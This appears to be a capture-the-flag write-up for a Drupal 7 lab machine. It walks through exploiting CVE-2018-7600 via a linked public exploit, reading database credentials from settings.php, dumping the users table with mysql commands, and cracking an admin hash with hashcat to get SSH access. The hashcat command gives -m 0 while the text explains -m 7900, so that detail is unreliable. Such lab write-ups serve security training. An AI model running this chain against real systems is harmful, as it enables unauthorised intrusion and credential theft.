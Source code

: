 # Armageddon Write-Up

Easy

Tags:
`PHP`
`Password Reuse`
`Easy`
`External`
`Drupal`
`Penetration Tester Level 1`
`CVE Exploitation`
`CVE-2018-7600`
`A06:2021-Vulnerable And Outdated Components`
`Public Vulnerabilities`
`Weak Credentials`
`A07:2021-Identification And Authentication Failures`
`Source Code Review`
`Clear Text Credentials`
`Authentication`
`Password Cracking`
`Sudo Exploitation`


## Intro

1. Drupal 7 exploitation
2. sql command line to explore db
3. Hashcat to crack passwd hash

## Enumeration

### Port scanning

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```

## Exploitation

### CVE-2018-7600

search `drupal 7 exploit` => [Drupal 7 (CVE-2018-7600 / SA-CORE-2018-002)](https://github.com/pimps/CVE-2018-7600)

use bash reverse shell, nc listener

explore default settings of drupal `/sites/default/settings.php`

```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

### MySQL

```
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases"
```

```
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; show tables"
```

```
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; select * from users"
```

user: `brucetherealadmin`

passwd hash: `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`

### Cracking the hashes

[Hashcat tutorial for beginners](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)

```
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt
```

which:
- -m 7900 - the type of hash we are cracking (drupal 7)
- -a 0 - dictionary attack
- -o cracked.txt` - output file
- `target_hashes.txt` - input file of hashes
- `/usr/share/wordlists/rockyou.txt` - wordlist file

use hashcat => passwd: `booboo` => connect ssh

## Privilege Escalation

